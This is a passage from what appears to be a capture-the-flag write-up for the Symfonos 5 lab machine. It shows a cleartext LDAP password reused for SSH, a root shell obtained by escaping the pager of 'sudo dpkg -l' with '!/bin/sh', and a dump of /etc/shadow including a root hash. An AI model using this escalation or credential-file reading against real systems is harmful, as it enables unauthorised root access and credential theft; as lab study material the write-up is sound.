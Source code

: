 ```

```
uid=zeus,dc=symfonos,dc=local
uid: zeus
cn: zeus
userPassword: cetkKf4wCuHC9FET
```

#### SSH User Access

- `ssh zeus@10.0.2.10` => `cetkKf4wCuHC9FET`
- `whoami` => `zeus`

---

### Privilege Escalation

- `sudo -l`

```
User zeus may run the following commands on symfonos5:
    (root) NOPASSWD: /usr/bin/dpkg
```

- [GTFOBins dpkg](https://gtfobins.github.io/gtfobins/dpkg/#shell)
- `sudo dpkg -l`
- This will invoke a default pager, most likely `less`.
- Then we can type `!/bin/sh` and we will get `root` shell. `!/bin/bash` also works.

![Symfonos 5 Privilege Escalation](/imgs/symfonos5/symfonos5_privilege_escalation.png)

- `cat /root/proof.txt`

![Symfonos 5 Root Proof](/imgs/symfonos5/symfonos5_root_proof.png)

---

### Post Exploitation

- `cat /etc/shadow`

```
root:$6$LCi0CrNofw.bZNIH$1JzaRFhkZM5zjdzhkcHyRoNluDS2w40H99UpCJCAhjhIyltCRND/7yMqMIyZ77RZwK1VDqk9mwTuZ88eqxSEw.:18297:0:99999:7:::
```
